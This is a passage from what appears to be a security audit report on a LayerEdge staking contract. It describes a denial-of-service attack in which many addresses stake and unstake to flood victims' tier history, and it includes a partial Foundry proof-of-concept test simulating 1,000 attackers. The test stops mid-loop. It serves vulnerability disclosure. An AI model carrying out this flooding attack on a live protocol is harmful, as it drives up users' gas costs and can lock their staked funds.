 1. **On a user level** - boundary victims see their transaction costs skyrocket until they cannot affort to interact with the protocol (DoS) - unstaking becomes extremely expensive, or impossible (tx OOG). 
Furthermore, the protocol owner does not have any mechanism to withdraw staked amounts per user, meaning victims funds could get locked for extended period of time.

2. **On a protocol level** - trust erosion and perspective stakers fear landing on a boundary and having their funds unclaimable. In addition, potential high number of users churning due to low protocol integrity.

### PoC

### 1. Add the following test into the `LayerEdgeStakingTest.t.sol`:

```solidity
    function test_attackStakersTierHistoryOnTierBoundraies() public {
        // 1) Setup 19 stakers distributed in tiers in the following way: Tier1 - 3 users, Tier2 - 5 users, Tier3 - 11 users
        uint256 INITIAL_STAKERS_COUNT = 19;
        address[] memory stakers = new address[](INITIAL_STAKERS_COUNT);
        console2.log(
            "\n------------Stakings made before flood attack---------------------"
        );
        for (uint256 i = 0; i < INITIAL_STAKERS_COUNT; i++) {
            address user = makeAddr(string(abi.encodePacked("user", i)));
            stakers[i] = user;

            // Distribute enough tokens for 2 stakes with MIN_STAKE
            vm.prank(admin);
            token.transfer(user, 2 * MIN_STAKE);

            vm.startPrank(user);
            token.approve(address(staking), MIN_STAKE);

            // log gas used for staking before flood attack
            uint256 gastStart = gasleft();
            staking.stake(MIN_STAKE);
            uint256 gasUsed = gastStart - gasleft();
            console2.log("Staker%s used %s gas for staking", i + 1, gasUsed);

            vm.stopPrank();
        }

        // 2) Simulate flood attack from 1000 different addresses - each address stakes and unstakes once.
        // Each staking with add one staker to the tree - adding up to 20 total in tree.
        // Each subsequent unstaking will remove the staker from
        console2.log(
            "\n------------SIMULATING DoS with 1000 subsequent attackers---------------------"
        );
        uint256 numAttackers = 1_000;
        for (uint256 i = 1; i <= numAttackers; i++) {
            address attacker = makeAddr(
                string(abi.encodePacked("attacker", i))
            );

            // Fund attacker with enough tokens for one stake
            vm.prank(admin);
            token.transfer(attacker, MIN_STAKE);

            // Attacker performs stake+unstake, shifting tier boundaries and flooding the same 3 users tier history(as shown below)
            vm.startPrank(attacker);
```